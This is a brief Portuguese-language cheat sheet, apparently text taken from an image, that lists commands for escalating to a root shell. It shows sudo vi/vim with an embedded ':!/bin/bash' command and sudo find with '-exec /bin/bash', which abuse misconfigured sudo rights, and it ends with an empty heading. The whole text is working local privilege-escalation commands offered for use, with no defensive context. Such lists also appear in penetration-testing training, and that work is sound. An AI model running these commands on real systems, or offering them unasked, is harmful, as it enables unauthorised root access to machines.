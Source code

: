 ESCALAR PRIVILÉGIO COM VIM OU VI

$sudo vi -c ':!/bin/bash'
OU
sudo vim -c ':!/bin/bash'





ESCALAR PRIVILÉGIO COM FIND

$sudo find . -exec /bin/bash \; -quit





ESCALAR PREVILÉGIOS



 
 
